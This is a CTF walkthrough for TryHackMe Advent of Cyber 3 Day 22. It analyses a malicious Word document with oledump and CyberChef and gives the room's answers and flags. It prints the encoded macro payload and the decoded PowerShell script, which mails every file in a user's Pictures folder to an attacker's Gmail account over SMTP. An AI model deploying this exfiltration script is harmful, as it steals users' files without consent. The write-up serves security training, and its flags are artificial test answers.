


# TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 22
### References
* SecurityNinja. (2021). TryHackMe - Advent of Cyber 3 Day 22 [YouTube Video]. In YouTube. https://youtu.be/aknI191GcdA

## Enumeration
1. Run the following command on the attachment Santa recived:
```cmd
C:\Users\Administrator\Desktop\Tools\oledump_V0_0_60>oledump.py ..\..\Santa_Claus_Naughty_List_2021\Santa_Claus_Naughty_List_2021.doc -s 8 -S
GrinchEnterprisesIsComingForYou
ahNtWnl0cVNHa25EeREaT0BaYRNBWmFid3RlVkJ0ZVp1Tk9aenRURGhkSxNHa2FZbEobVUdrR1NHa3FPQEoWSUERE1VBdGVWQnRlWkdOT1p6dFRTamR5VUBKYRBATk8TQnQWTWprcUxCe25EentHT0ARGld5cGFwcnVyS2BETEhHe21PQE4WS0F0dhpqSEdaQnQWSUJgFmVBTXFPQE1hWkJ7bU9AWhdabmdqW3JkR1d6dE9Qb05tVUFwamhpa2FLQBBtEEEQaUhzcGl3cmQWE3p0SEh6ERpXQnQWTUdnYRNua0dWakRMSEAREhNAZW1PQE15T0BKYhpqYGlZQXtxVG9OR1d6dE9Qb05tVUFwamhpZBJZeVpiGmpkFk9HWhJVek5TT3oQckR3TnUTb0gSS0J0VFZ3dGVTQWYST0AQbUt5EXZoYEpxWUF7cVRqZxNEd051EG92GkpCTnVJR2BhbHl7clZ3dGVTQWAWd0F7cVRyEVtTeXQWE2hgcXdBe3FUdhF1WkdOdVpvYGISbGdAU2piTGhpa21XR2tiVnF0Fkt6TltPdhBtUGpnE0Rpa3FaR3R2aGBKcVlBe3FUb0htWnl0cU9BTXFTenRbWWpnE0R3TnUQb3YaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gWT0drR1VATldnQE51SHl0FhNCdGVQaGBxEkARdVpBTmVXeXBUSEBkZVlAEEdVQE5yU2BETGhpZBJZeVoWZEBOGldqZxNEak1tS0FNcUtAEGFaeXttT0FNcVl5ZHVQQnt5T0BNT2J5ERJLQnRUVnoRGldqRExoaWQSWXlaFnZBWhZheWRyTGpIR1pCdBZJQmAWZUFNcU9ATWFaQnttT0BaF1puZ2pbcmRHV3p0T1BvTm1VQXBqU2BETEhBe21Nb0hpVXlrSBpqT09VR3tqREBraU9AEXVWR2tuREJkZRF5cGFLQE1pU0dOdUhqcGpoYEpxV0ARQFZ2EHVKQk51SUdgYhpqYGlnQmtpU0AQcVd6e25EdRFPWUJkW1NAEHJKYERMSHlOT1B5e24acRF1E292bUxCdFtIcHtxT0FwYkppZHVWR0lTdXYTdXB2ZWlzcUhPbnF1W3JCdG0TR3tpT0ASW2tATk9WehFEWm5nalt7YGpoYEh5VUBOdUt6EURMaWR5U0FkdkRCdBdEaWR5U0FkdVloclMUYEpxS0drcUt6EUtXeXQWE2pnE0RBTnUQb3QaSkJOdUlHYGF3RnttE3l0E1Z3TnUTb0gSS0J0VFZye3ETenRtTEF0dVZHYGJXcntpTUd0Ek9BTXFuQnttE2pgcU5CdFtPb0h5EkFkW2x6dBJPYEpxV0ARQFZye3ETenRtTEF0dVZHa25WcnRxSGhgcUtHa3FLehFLV3l0FhNockxoRXJMSEAREhNAYBZ3eXQWSGhgcVdAEUBTYEpxS0drcUt6EUtXeXQWE29IcVNAEGFVQBF2TGh3UGhpZBJZeVoWZkJ7bVRBEG1PaGBIFA==
```
2. Extract the Base64 string into CyberChef, decode it, apply an XOR (with key 35), and Base64-decode it again:

3. The following PowerShell script was found
```powershell
#Credits goes to @ManiarViral (https://twitter.com/maniarviral) for writing this awesome RAT!

$username="Grinch.Enterprises.2021@gmail.com"
$password="S@ntai$comingt0t0wn"
$smtpServer = "smtp.gmail.com"
$msg = new-object Net.Mail.MailMessage

$smtp = New-Object Net.Mail.SmtpClient($SmtpServer, 587) 

$smtp.EnableSsl = $true

$smtp.Credentials = New-Object System.Net.NetworkCredential($username,$password)


$msg.From = "santaspresentsdelivery@gmail.com"

$msg.To.Add("Grinch.Enterprises.2021@gmail.com")

$msg.Body="Your presents have arrived!"

$msg.Subject = "Christmas Wishlist"

$files=Get-ChildItem "$env:USERPROFILE\Pictures\Grinch2021\"

Foreach($file in $files)
{
$attachment = new-object System.Net.Mail.Attachment -ArgumentList $file.FullName
$msg.Attachments.Add($attachment)

}
$smtp.Send($msg)
$attachment.Dispose();
$msg.Dispose();
```

## What is the username (email address of Grinch Enterprises) from the decoded script?
**Answer**: `Grinch.Enterprises.2021@gmail.com`
## What is the mailbox password you found?
**Answer**: `S@ntai$comingt0t0wn`
## What is the subject of the email?
**Answer**: `Christmas Wishlist`
## What port is the script using to exfiltrate data from the North Pole?
**Answer**: `587`
## What is the flag hidden found in the document that Grinch Enterprises left behind?
```cmd
C:\Users\Administrator\Desktop\Tools\oledump_V0_0_60>oledump.py ..\..\Santa_Claus_Naughty_List_2021\Santa_Claus_Naughty_List_2021.doc -s 7 -d
VERSION 5.00
Begin {C62A69F0-16DC-11CE-9E98-00AA00574A4F} GrinchEnterprisesWasHere
   Caption         =   "YouFoundGrinchCookie"
   ClientHeight    =   3015
   ClientLeft      =   120
   ClientTop       =   465
   ClientWidth     =   4560
   StartUpPosition =   1  'CenterOwner
   TypeInfoVer     =   4
End
```

**Flag**: `YouFoundGrinchCookie`
## There is still a second flag somewhere... can you find it on the machine?


**Flag**: `S@nt@c1Au$IsrEAl`